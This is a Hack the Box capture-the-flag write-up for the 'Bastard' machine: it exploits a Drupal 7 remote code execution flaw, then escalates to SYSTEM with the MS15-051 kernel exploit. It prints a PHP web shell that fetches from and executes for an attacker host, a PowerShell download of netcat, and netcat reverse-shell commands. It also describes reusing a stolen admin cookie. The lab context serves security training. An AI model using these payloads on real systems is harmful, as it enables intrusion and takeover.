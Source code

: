 ```yaml
---
title: Bastard
date: 2024-03-06 10:00
categories: [ctf, security, hacking, exploits, web application, os command injections]
tags: [ctf, security, hacking, exploits, web application, os command injections]
---
```


# Overview
Bastard is a vulnerable machine from [Hack the Box](https://www.hackthebox.com) that requires some web app enumeration and using a public exploit for remote code execution on a vulnerable service. The foothold is accomplished after gaining access to a login page, exploiting the file upload to retreive a file from our attacker machine and get a shell back. The privilege escalation is accomplished through enumerating the host for potential exploits, and after finding a kernel vulnerability, grabbing a public exploit to do local privilege escalation. 

## Nmap Scan
sudo nmap -sS -p- `10.10.10.9` -vvv
* 80/tcp    open  http    syn-ack ttl 127
* 135/tcp   open  msrpc   syn-ack ttl 127
* 49154/tcp open  unknown syn-ack ttl 127

```
|_http-generator: Drupal 7 ([http://drupal.org](http://drupal.org/))
|_http-title: Welcome to Bastard | Bastard
| http-robots.txt: 36 disallowed entries

| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
| /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php
| /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/
| /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/
|_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
```

## Basic Enumeration
Wfuzz Directory Enumeration
```
"misc"
"themes"
"user"
"0"
"modules"
"scripts"
"node"
"sites"
"includes"
"profiles"
"Misc"
"Themes"
"Scripts"
"rest"
"User"
"Modules"
"Sites"
```
The login page allows us to create new account. We cannot create an account like `'OR 1=1 OR'`. We have to create a regular account. There isn't anything real interesting after signing in as a regular user. 

* Looking more at robots.txt, we can see that php is used on the site.
    * PHP 5.2.4
    * This is the web server: `Drupal 7.54, 2017-02-01`

Digging around, we are able to see this web server is vulnerable to remote code execution, and there are public exploits, one in php available.

* https://www.exploit-db.com/exploits/41564 
* You will need php-curl to be installed to execute this properly.
* This exploit will upload a file onto a specific path on the web server. The path `rest_endpoint` does not exist, but `rest` is on the web server. We changed the name of the file we are going to upload to `dath.php`, and added some additional code to give us additional functionality. 

```php
$phpCode = <<<'EOD'
<?php
	if (isset($_REQUEST['fupload'])) {
		file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.16.5/8000/" . $_REQUEST['fupload']));
	};
	if (isset($_REQUEST['fexec'])) {
		echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
	};
?>
EOD;
```
The code executes successfully, and downloads some json files. One such file is interesting, which is the admin login that has their cookie. We can use a browser extension to add the cookie, go to the login portal, and refresh the page. Without even needing a password, we walk right into the web portal. 

## Foothold
Since the php file is uploaded, we can go to the path in the web portal under `/rest/dath.php`, and execute commands on the host. 

* Using the `fexec`, we can execute commands through the browser.
    * `fexec=echo (New-Object System.Net.WebClient).Downloadfile('http://10.10.16.5:8000/nc64.exe','nc64.exe') | powershell -noprofile -`
        * We tried to use the `fupload` command that was also sent as part of the php execution, but it wouldn't work for me.
    * Netcat is a great tool to use in this case, once downloaded onto the victim machine, we can execute a command to get a shell back over netcat.
    * `http://10.10.10.9/dath.php?fexec=nc64.exe -e cmd.exe 10.10.16.5 8081`

Now we are into the machine, and get `user.txt`.

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/bastard/Bastard_User.png?raw=true)

## Local Enumeration
To find some exploits that are easy for us, this server is quite old, so we can run an enumeration script like `PowerUp.ps1,` `Sherlock.ps1`, or `Winpeas.exe`. In this example, we ran `Sherlock.ps1`.

* It is also possible to run `systeminfo`, grab the system info, and run it against `Windows Exploit Suggester`. This is not only available inside of `Metasploit`, but you can also get a version directly in Kali. You can execute it against saved system info like this: 
    * `/home/dathalind/.local/bin/wes system.txt >> exploits.txt`

Sherlock shows us that there are 2 possible exploits: 
```
Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Appears Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable
```

## Privilege Escalation
We end up using the exploit against `MS15-051`, which you can obtain from this github repo [here](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051). 

* When you run it on the machine, you can just run it against the command `whoami`, and it should return the result of `nt authority\system`. 
* To get a shell, we can run it to execute `nc64.exe` to get an escalated shell back to our attacker machine: 
    * `hax.exe "nc64.exe -e cmd.exe 10.10.16.5 5555"`

We get a shell back, and can now read `root.txt`.

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/bastard/Bastard_Root.png?raw=true)